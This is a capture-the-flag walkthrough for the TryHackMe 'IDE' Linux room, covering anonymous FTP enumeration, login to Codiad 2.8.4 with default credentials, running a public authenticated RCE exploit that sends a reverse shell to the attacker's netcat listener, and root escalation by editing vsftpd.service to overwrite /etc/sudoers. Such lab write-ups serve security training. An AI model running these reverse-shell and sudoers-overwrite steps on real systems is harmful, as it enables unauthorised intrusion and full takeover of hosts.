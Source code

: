 **Category:** Linux

**Difficulty:** Easy

**Status:** Completed

**Link:** https://tryhackme.com/room/ide

---

## 1. Challenge Description

An easy box to polish your enumeration skills!

## 2. Enumeration

### Basic scan

```bash
nmap -sS -p- -Pn <IP>
```

![image.png](attachment:6602acd9-9740-4ff8-88ce-9b4c893116dc:image.png)

### Detail scan

```bash
nmap -T4 -A -p 21,22,80,62337 <IP>
```

![image.png](attachment:cbb121e9-c604-4548-a149-943b3b1ca922:image.png)

## 3. **FTP Enumeration**

```bash
ftp <IP>
# name : anonymous
#password : empty
```

![image.png](attachment:9de29a8d-5959-48ef-b799-82cc70a7929b:image.png)

```bash
ls -la
cd ...
ls -la
get -
```

![image.png](attachment:0a525e6e-37ab-4dff-be9d-057a5b852f73:image.png)

```bash
cp - test
cat test
```

![image.png](attachment:0bc24978-0b5a-401d-97bb-0754195d1ed0:image.png)

> It appears that `john` and `drac` are potential users in the target system.
> 

## 4.HTTP Port 62337

 

![image.png](attachment:b623a484-55ca-476b-9adf-2aa8ac4f8ddd:image.png)

> the user is `john` and default password is `password`
> 

![image.png](attachment:0229a5e7-7f19-4b95-aa4b-de68595b920f:image.png)

### Codiad 2.8.4

> Search on Codiad 2.8.4 exploit and download the py file
> 

[Codiad 2.8.4 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49705)

### Usage

![image.png](attachment:4d63a04f-ddbc-4b24-aa56-28401305a2d9:image.png)

```bash
nc -lvnp 4444 #root privilege
```

```bash
└─$ python3 exploit.py http://<IP>:62337/ john password <MY VM IP> 4444 linux
```

### User flag

![image.png](attachment:42d0de30-696a-4326-b401-fc0f11919ad3:image.png)

```bash
cd home/drac
ls -lna
```

```bash
cat user.txt
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

```bash
cat .bash_history
```

![image.png](attachment:0244dbf7-2c65-4d9b-8370-f08cd2c4d239:image.png)

```bash
ssh drac@IP 
#password is TH...
```

![image.png](attachment:d8bf0f51-5521-4b7c-9697-e2f00a2b9200:image.png)

### Root flag

![image.png](attachment:55056df0-9c28-4f69-a705-6efa2e9bbd8f:image.png)

> We can executo /usr/sbin/service vsftpd restart as sudo so we can try to change the vsftpd.service to execute a reverse shell when we restart the service.
> 

```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

```bash
nano /lib/systemd/system/vsftpd.service
```

```bash
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target

```

```bash
 /usr/sbin/service vsftpd restart
```

```bash
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password:
==== AUTHENTICATION COMPLETE ===

drac@ide:~$ sudo -l
User drac may run the following commands on ide:
    (root) NOPASSWD: ALL
```

```bash
drac@ide:~$ sudo su
root@ide:/home/drac# cd
root@ide:~# ls
root.txt
```
